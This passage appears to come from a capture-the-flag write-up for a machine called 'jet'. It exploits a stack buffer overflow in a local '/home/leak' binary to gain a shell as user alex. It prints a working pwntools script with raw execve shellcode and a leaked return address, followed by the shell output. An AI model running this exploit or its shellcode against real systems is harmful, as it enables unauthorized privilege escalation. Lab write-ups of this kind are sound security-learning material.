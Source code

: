 It will serve the service at port 60002 refering to `ps`

```
www-data@jet:/home$ ps aux | grep leak
www-data  69163  0.0  0.0  11288   876 pts/4    S+   06:09   0:00 grep leak
www-data  94397  0.0  0.0  24364  2896 ?        S    Jan08   0:00 socat TCP4-LISTEN:60002,reuseaddr,fork EXEC:/home/leak
```

So let's transfer it to our host first.

It has a buffer size of 72. Is an easy 64bit executable stack Bof.

With this script using pwntools you will be able to exploit it lcoally.

```
www-data@jet:/tmp$ cat sploit_leak.py 
from pwn import *

p = process("/home/leak")
p.recvuntil("leaking! ")
addr = int(p.recvuntil("\n"),16)
p.recvuntil(">")

#shellcode = asm(shellcraft.execve("/bin/bash"))
shellcode="\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x48\x89\xe6\xb0\x3b\x0f\x05"

p.sendline(shellcode + "\x90"*(72 - len(shellcode)) + p64(addr))
p.interactive()
```

The results are as follows

```
www-data@jet:/tmp$ python sploit_leak.py 
[+] Starting local process '/home/leak': pid 72006
[*] Switching to interactive mode
 $ id
uid=33(www-data) gid=33(www-data) euid=1005(alex) groups=33(www-data)
$ ls -la
total 448
drwxrwxrwt 12 root          root            4096 Jan 11 08:39 .
drwxr-xr-x 23 root          root            4096 Apr  1  2018 ..
drwxrwxrwt  2 root          root            4096 Jan  4 14:26 .ICE-unix
drwxrwxrwt  2 root          root            4096 Jan  4 14:26 .Test-unix
drwxrwxrwt  2 root          root            4096 Jan  4 14:26 .X11-unix
drwxrwxrwt  2 root          root            4096 Jan  4 14:26 .XIM-unix
drwxrwxrwx  2 www-data      www-data        4096 Jan 11 07:13 .de
drwxrwxrwt  2 root          root            4096 Jan  4 14:26 .font-unix
prw-r--r--  1 membermanager membermanager      0 Jan 10 07:16 f
prw-r--r--  1 www-data      www-data           0 Jan 10 20:20 f2
drwxr-xr-x  2 elasticsearch elasticsearch   4096 Jan  4 14:26 hsperfdata_elasticsearch
drwxr-xr-x  2 elasticsearch elasticsearch   4096 Jan  4 14:26 jna--1985354563
-rw-r--r--  1 www-data      www-data       25304 Jan  4 16:46 linuxprivchecker.py
-rwxrwxrwx  1 www-data      www-data      375176 Apr 30  2018 socat
-rw-r--r--  1 www-data      www-data         381 Jan  4 16:30 sploit_leak.py
drwx------  3 root          root            4096 Jan  4 14:26 systemd-private-49510f9d52e947b6838d7e3fb82d1ed9-systemd-timesyncd.service-4ZB1or
drwx------  2 root          root            4096 Jan  4 14:26 vmware-root
$ cd /home/alex
$ ls -la
total 48
drwxrwx--- 4 alex alex     4096 Jan  9 08:10 .
drwxr-xr-x 8 root root     4096 Apr  1  2018 ..
-rw-r--r-- 1 root root        0 Dec 28  2017 .bash_history
-rwxrwx--- 1 alex alex      220 Dec 27  2017 .bash_logout
-rwxrwx--- 1 alex alex     3771 Dec 27  2017 .bashrc
```